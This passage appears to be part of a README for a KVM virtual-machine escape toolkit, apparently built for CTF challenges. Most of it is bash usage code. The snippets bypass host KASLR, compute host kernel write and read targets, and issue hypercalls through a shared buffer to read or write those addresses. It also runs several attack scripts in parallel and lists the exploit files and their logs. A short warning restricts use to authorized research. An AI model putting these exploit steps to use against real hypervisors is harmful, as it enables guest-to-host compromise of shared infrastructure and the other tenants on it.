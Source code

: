 ### KASLR Bypass
```bash
# Get host kernel base
KASLR_SLIDE=$(kvm_prober getkaslr)
HOST_BASE=$((0xffffffff81000000 + 0x$KASLR_SLIDE))

echo "Host kernel base: 0x$(printf '%x' $HOST_BASE)"

# Adjust target addresses
TARGET_WRITE=$((HOST_BASE + 0x1279a8))
TARGET_READ=$((HOST_BASE + 0x1b5ee10))
```

### Persistent Shared Buffer
```bash
# Allocate once, reuse for all operations
SHARED_GPA=$(kvm_prober alloc_shared | grep -oP '0x[0-9a-f]+')

# Use for all hypercalls
kvm_prober hypercall 102 $SHARED_GPA $((SHARED_GPA + 0x100)) 4096 0
kvm_prober hypercall 101 0xffffffff82b5ee10 $SHARED_GPA 64 0
```

### Parallel Exploitation
```bash
# Run multiple attack vectors simultaneously
./objective_a.sh &
./objective_b.sh &
./objective_c.sh &

wait
echo "All attacks completed"
```

## 📝 Logs & Output

All scripts generate detailed logs in timestamped directories:
- `exploit_logs_YYYYMMDD_HHMMSS/master.log` - Main orchestrator log
- `exploit_logs_YYYYMMDD_HHMMSS/objective_a_*.log` - Objective A attempts
- `exploit_logs_YYYYMMDD_HHMMSS/read_samples.hex` - Raw read data
- `exploit_logs_YYYYMMDD_HHMMSS/strings_found.txt` - Extracted strings

## 🔐 Security Notes

⚠️ **Warning**: These tools are for authorized security research and CTF challenges only.

- Always run in isolated/sandboxed environment
- Kernel module has full system privileges
- Can cause system instability if misused
- Clean up after testing: `sudo rmmod kvm_probe_drv`

## 📚 Additional Resources

- Kernel module source: `kvm_probe_drv.c`
- Userspace tool: `kvm_prober.c`
- Python exploit: `targeted_host_escape.py`
- Bash exploit: `advanced_mmio_scanner.sh`
- Master script: `exploit_orchestrator.sh`